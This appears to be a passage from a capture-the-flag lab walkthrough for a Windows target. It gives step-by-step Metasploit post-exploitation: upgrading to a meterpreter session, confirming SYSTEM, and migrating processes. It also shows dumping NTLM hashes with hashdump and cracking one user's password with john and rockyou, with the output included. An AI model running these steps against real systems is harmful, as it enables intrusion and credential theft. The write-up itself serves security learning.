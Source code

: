     post/multi/manage/shell_to_meterpreter

Select this (use MODULE_PATH). Show options, what option are we required to change?

    session

Set the required option, you may need to list all of the sessions to find your target here.

    No answer needed

Run! If this doesn't work, try completing the exploit from the previous task once more.

    No answer needed

Once the meterpreter shell conversion completes, select that session for use.

    No answer needed

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

    No answer needed

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

    No answer needed

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

    No answer needed

## Task 4 - Cracking

_Dump the non-default user's password and crack it!_

Dumping the hash password database can be simply done with the `hashdump` command:

```commandline
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Copied the whole last line and pasted it into a text file called `jon_hash.txt`.

```commandline
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > /tmp/jon_hash.txt
```

Cracking the password hash of the user `jon` with the `john` tool. Almost confusing:

```commandline
john /tmp/jon_hash.txt --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)
1g 0:00:00:00 DONE (2021-08-11 04:02) 2.272g/s 23182Kp/s 23182Kc/s 23182KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```
